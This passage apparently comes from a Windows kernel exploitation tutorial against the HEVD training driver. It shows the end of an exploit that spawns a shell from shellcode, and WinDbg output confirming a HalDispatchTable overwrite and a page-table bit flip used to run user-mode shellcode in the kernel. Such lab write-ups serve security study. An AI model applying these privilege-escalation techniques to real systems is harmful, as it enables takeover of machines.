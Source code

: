 ```cpp

	SpawnShell();

	VirtualFree(ShellcodeAddr, SHELLCODE_SIZE, MEM_RELEASE);
	CloseHandle(hHEVD);
	return 0;
}
...
```

Let’s confirm everything’s working fine in WinDbg...
```WinDbg
nt!DbgBreakPointWithStatus:
fffff803`169cd300 cc              int     3
7: kd> bp nt!KeQueryIntervalProfile
7: kd> g
Breakpoint 0 hit
nt!KeQueryIntervalProfile:
fffff803`16db7410 4883ec48        sub     rsp,48h
3: kd> dq ntkrnlmp!HalDispatchTable+0x8 L1
fffff803`16b8f7d8  000000f2`8c1c0000
3: kd> !pte 000000f2`8c1c0000
                                           VA 000000f28c1c0000
PXE at FFFFF6FB7DBED008    PPE at FFFFF6FB7DA01E50    PDE at FFFFF6FB403CA300    PTE at FFFFF68079460E00
contains 0140000114A40867  contains 0150000144B41867  contains 0160000145242867  contains 2800000156ACF863
pfn 114a40    ---DA--UWEV  pfn 144b41    ---DA--UWEV  pfn 145242    ---DA--UWEV  pfn 156acf    ---DA--KWEV

3: kd> g
Break instruction exception - code 80000003 (first chance)
0033:00007ffa`9f780262 cc              int     3
3: kd> dq ntkrnlmp!HalDispatchTable+0x8 L1
fffff803`16b8f7d8  fffff803`16b8f7d8
3: kd> !pte 000000f2`8c1c0000
                                           VA 000000f28c1c0000
PXE at FFFFF6FB7DBED008    PPE at FFFFF6FB7DA01E50    PDE at FFFFF6FB403CA300    PTE at FFFFF68079460E00
contains 0140000114A40867  contains 0150000144B41867  contains 0160000145242867  contains 2800000156ACF867
pfn 114a40    ---DA--UWEV  pfn 144b41    ---DA--UWEV  pfn 145242    ---DA--UWEV  pfn 156acf    ---DA--UWEV

3: kd> g
```

Once everything is in place, we can execute our code.